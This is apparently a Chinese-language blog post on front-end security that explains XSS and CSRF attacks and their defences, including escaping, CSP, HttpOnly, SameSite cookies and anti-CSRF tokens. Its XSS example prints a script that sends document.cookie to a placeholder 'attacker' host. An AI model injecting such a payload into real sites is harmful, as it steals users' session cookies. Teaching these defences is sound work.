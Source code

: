 ```yaml
---
title: 前端安全
date: 2018/01/10 20:46:25
categories:
- JavaScript
tags:
- JavaScript
---
```

# 前端安全

- CSRF:跨站请求伪造（crooss-site request forgery）
- XSS：跨站脚本攻击（cross-site scripting）
<!-- more -->

## XSS攻击

XSS即跨站脚本攻击，是一种脚本注入攻击，通过在被攻击者的浏览器中执行恶意JavaScript实现。

考虑一下在他人浏览器上可以执行Javscript的危害性：

- JS可以访问cookie
- JS可以通过XMLHttpRequest对象发起ajax请求
- JS可以操作DOM对页面进行窜改

通过以上描述信息，我们可以：
- 盗取cookie
- 为键盘添加监听事件，盗取密码信息
- 伪造表单到被攻击者的浏览器，诱导提交，钓鱼攻击

### 示例攻击情形
```html
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
首先，攻击者利用漏洞网站的表单将恶意字符串插入到网站数据库，然后被攻击者请求页面，就得到具有该恶意字符串的页面，浏览器将其作为JS解析，于是执行上述代码，将cookie信息发送到攻击者的服务器。

### XSS类型

- 持久型XSS：恶意字符串来自网站数据库
- 反射型XSS：恶意字符串来自被攻击者的请求
- 基于DOM的XSS：漏洞位于客户端

上面的示例为持久性XSS，下面介绍反射型XSS的基本流程。

{% asset_img reflected-xss.png %}

首先攻击者制作含有恶意字符串的链接发送给被攻击者，诱导被攻击者点击该链接，然后向服务器发起请求，服务器将含有这个而已字符串的页面返回给被攻击者，被其浏览器解析后，将被攻击者cookie发送给攻击者服务器。

{% asset_img dom-based-xss.png %}

下面是基于DOM的XSS攻击，浏览器在执行合法JS之前并不会遭受攻击。该种方法没有直接将脚本插入到页面执行，而是在执行合法JS的过程中，使用了innerHTML将恶意字符串插入到了页面上。

### 防止XSS

{% asset_img encode.png %}

- 可以在特定上下文对输入进行转义
- 可以对输入进行验证，设置白名单或者黑名单，但设置白名单相对容易
- CSP(Content security policy) ，通过设置HTTP头Content‑Security‑Policy来实现，包含一些指令，指令后面用空格分隔源表达式，来指定可用于加载的源，除了URL，还有一些关键字，列举如下，`none`表示不允许任何源，`self`允许当前服务主机源，`unsafe-inline`允许inline的style，script元素，以及`javascript:`的url,`unsafe-eval`允许使用JS的eval函数。
  - connect‑src
  - font‑src
  - frame‑src
  - img‑src
  - media‑src
  - object‑src
  - script‑src
  - style‑src
- HttpOnly cookie：禁止JS读取cookie

## CSRF攻击

CSRF(Cross site request forgery)跨站请求伪造，利用用户已登录的身份，在用户毫不知情的情况下，执行非法操作。

在GET请求的场景下，用户通过访问危险网站B，危险网站B自动发出GET请求到用户当前访问的网站A，get的地址完成一次转账操作。
在POST场景下，也可以通过form onload就submit的方法自动提交表单，发出POST请求。如果是在有cookie的场景下，我们一定要禁止第三方网站访问cookie，而且不要用GET提交请求，此外请求时附带验证信息如验证码，token等。

### CSRF预防

- 对cookie设置SameSite属性，该属性表明Cookie不随着跨域请求发送，但是并不是浏览器都兼容了。
- Referer检查，HTTP的Referer头告诉服务器请求从哪个链接过来的，服务器可以拿到这个信息进行判断。
- Anti CSRF Token：发送请求时在HTTP请求中加入一个随机token，服务端拿到token之后读取cookie中的token，进行比对。
- 验证码

2018 年 1月 10日